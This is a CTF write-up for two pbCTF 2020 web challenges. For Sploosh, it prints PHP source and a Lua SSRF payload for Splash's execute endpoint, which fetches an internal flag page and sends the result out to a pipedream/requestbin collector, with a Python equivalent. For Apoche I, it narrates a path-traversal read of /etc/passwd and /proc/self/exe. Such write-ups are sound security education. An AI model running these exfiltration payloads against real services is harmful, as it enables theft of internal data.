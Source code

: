 ```yaml
---
layout: post
date: 2020-12-07 00:00:00
title: "pbCTF 2020 Write Up"
categories: CTF
tags: [Path Traversal, SSRF]
author:
  - Jeongwon Jo
---
```

I participated by opening the CTF this time at Perfect Blue. Let's write Write Up only for web challenges solved by CTF.

---

### (Web) Sploosh
<strong>Challenge Author :</strong> Corb3nik<br>
<strong>Category :</strong> WEB<br>
<strong>Points :</strong> 156<br>
<strong>Solves :</strong> 5N<br>

This time, we will solve a problem called Sploosh among web challenge from pbCTF.
![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%2012.27.01.png?raw=true)
When you come into challenge, you can see that there is a form for entering the URL, and you can download the source code by clicking here.<br><br>

Once you think about it before looking at the source code, you might be suspicious of `SSRF` because it has the ability to type in the url.

```php
<?php
error_reporting(0);

header("Content-Type: application/json");

function fail() {
  echo "{}";
  die();
}

if (!isset($_GET['url'])) {
  fail();
}


$url = $_GET['url'];

if ($url === '') {
  fail();
}

try {
  $json = file_get_contents("http://splash:8050/render.json?timeout=1&url=" . urlencode($url));
  $out = array("geometry" => json_decode($json)->geometry);
  echo ($out);
} catch(Exception $e) {
  fail();
}
?>
```

Let's check the api.php source code. You can see that the url is input and the file is opened and checked with the file_get_contents() function. And you can see that the file value is output as the geometry value.
<br><br>
SSRF seems to be fired by the `file_get_contents()` function of api.php.

```php
<?php

$FLAG = getenv("FLAG");

$remote_ip = $_SERVER['REMOTE_ADDR'];
if ($remote_ip === "172.16.0.13" || $remote_ip === '172.16.0.14') {
  echo $FLAG;
} else {
  echo "No flag for you :)";
}
?>
```

Let's check the source code of flag.php. If the connection IP is `172.16.0.13` or `172.16.0.14`, you can see the flag is given.
<br><br>

And looking at the flag.php source code, you can see that the flag is only output on the internal server. So it looks like we need to put the flag in a specific variable and bring it to our private server.
<br><br>

Now I've searched for Sploosh to do an exploit. If you check [Sploosh's official homepage](https://splash.readthedocs.io/en/stable/scripting-tutorial.html#scripting-tutorial), you find that you can create and run Lua scripts by connecting to the `execute` endpoint.
![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%201.13.22.png?raw=true)
The picture above is on the official Sploosh website. Looking at the contents, you can see that the `execute` endpoint sends the RCE payload using the lua_source parameter.

```lua
function main(exploit, args)
  exploit:go("http://172.16.0.14/flag.php")
  local flag = splash:html()
  exploit:go("requestbin" .. flag)
  return {geometry=data}
end
```

So, I wrote the SSRF + RCE payload as above using the lua script.

```python
flag = requests.get("http://172.16.0.14/flag.php")
requests.get("requestbin"+flag)
```

If the exploit code is interpreted in Python, it is as above.
<br><br>

Finally, if you connect and send the exploit code above to the excute endpoint, a flag will come to requestbin. (`URL encoding`)

```
payload : http%3A%2F%2Flocalhost%3A8050%2Fexecute%3Flua_source%3Dfunction%2520main%28splash%2C%2520args%29%2520splash%3Ago%28%2522http%3A%2F%2F172.16.0.14%2Fflag.php%2522%29%2520local%2520data%2520%3D%2520splash%3Ahtml%28%29%2520splash%3Ago%28%2522https://66409bdd5f994b912d1a7f0f28d3b33f.m.pipedream.net%2F%2522%2520..%2520data%29%2520return%2520%7Bgeometry%3Ddata%7D%2520end
```

So, I'll URL-encode the exploit code and pass it over.
![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%202.29.59.png?raw=true)
When I sent the above exploit payload, I could see the flag coming to the requestbin.

`FLAG : pbctf{1_h0p3_y0u_us3d_lua_f0r_th1s}`
<br>

---

### (Web) Apoche I
<strong>Challenge Author :</strong> theKidOfArcrania<br>
<strong>Category :</strong> WEB<br>
<strong>Points :</strong> 58<br>
<strong>Solves :</strong> 5N<br>

This time, we will solve a challenge called Apoche I among web challenge from pbCTF.
![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%205.19.31.png?raw=true)
Looking at the challenge description, there are 5 URLs given. You can connect to an open server among 5 servers. (Some servers are closed.)<br><br>

And looking at the hint, it says to get information about the binary.
![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%205.23.10.png?raw=true)
I connected to 34.68.159.75:41521, and when I checked the robots.txt file, I could see that there is a secret directory. I thought LFI would happen here, so I grabbed a proxy and attempted an LFI attack.

![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%205.27.43.png?raw=true)
When I grabbed the request using Burp Suite and accessed the `/etc/passwd` file, I could see that the `LFI` worked well.

![](https://github.com/wjddnjs33/image/blob/main/스크린샷%202020-12-07%20오전%205.32.50.png?raw=true)
So I accessed `/proc/self/exe` to get the `binary file`, and when I searched for `pbctf{`, I could see that the binary file had a flag.

`FLAG : pbctf{n0t_re4lly_apache_ap0che!}`
<br>

---

